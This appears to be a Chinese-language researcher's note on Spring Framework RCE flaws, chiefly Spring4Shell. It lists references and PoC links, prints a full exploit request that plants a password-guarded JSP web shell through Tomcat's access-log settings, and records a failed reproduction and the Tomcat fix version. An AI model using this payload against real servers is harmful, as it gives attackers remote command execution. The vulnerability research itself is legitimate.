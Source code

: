 参考：
- [Spring 框架漏洞集合](https://misakikata.github.io/2020/04/Spring-%E6%A1%86%E6%9E%B6%E6%BC%8F%E6%B4%9E%E9%9B%86%E5%90%88/)
- [Spring 全家桶各类 RCE 漏洞浅析](https://paper.seebug.org/1422/#_3)
- [spring actuator restart logging.config rce](https://landgrey.me/blog/21/)
- https://github.com/LandGrey/SpringBootVulExploit
- [Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)
- [CVE-2021-22060: Additional Log Injection in Spring Framework (follow-up to CVE-2021-22096)](https://tanzu.vmware.com/security/cve-2021-22060)



## Spring RCE
影响范围：
-  [2.5,2.5.6.SEC02)

## PoC
- https://github.com/craig/SpringCore0day/blob/main/exp.py
- https://github.com/lunasec-io/Spring4Shell-POC/blob/master/exploit.py


```
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

准备复现，
刚从tomcat官网下了个tomcat-8.5.78: https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.78/bin/apache-tomcat-8.5.78-windows-x64.zip

结果失败了，
![image](https://user-images.githubusercontent.com/30398606/161372147-431252a3-0a8e-472d-8ef9-1212d0781f1a.png)

```
Invalid property 'class.module.classLoader.resources' of bean class [java.lang.Module]: Could not instantiate property type [org.apache.catalina.WebResourceRoot] to auto-grow nested property path; nested exception is org.springframework.beans.BeanInstantiationException: Failed to instantiate [org.apache.catalina.WebResourceRoot]: Specified class is an interface
```

很快啊，原来是：
> Effectively disable the WebappClassLoaderBase.getResources() method as it is not used and if something accidently exposes the class loader this method can be used to gain access to Tomcat internals.

- https://tomcat.apache.org/tomcat-8.5-doc/changelog.html

所以目前的payload对于tomcat作为web容器的利用方式下，影响范围是：tomcat < 8.5.78

那就下载8.5.77:
- https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.77/bin/apache-tomcat-8.5.77-windows-x64.zip

tomcat换了之后依然没有成功。
![image](https://user-images.githubusercontent.com/30398606/161372361-0c85d1ca-1a4a-46b1-862a-7c7c19156635.png)
可能因为我是直接在windows上双击startup.bat导致日志直接输出到控制台，而没有机会写入到文件？



### Ref
- [CVE-2010-1622: Spring Framework execution of arbitrary code](https://seclists.org/fulldisclosure/2010/Jun/456)
- [Spring Framework - Arbitrary code Execution](https://www.exploit-db.com/exploits/13918)
- [Spring Core RCE 0day｜文末报告附件](https://mp.weixin.qq.com/s/P-NEJzUUjIyemkSe_RbicQ)
- https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529
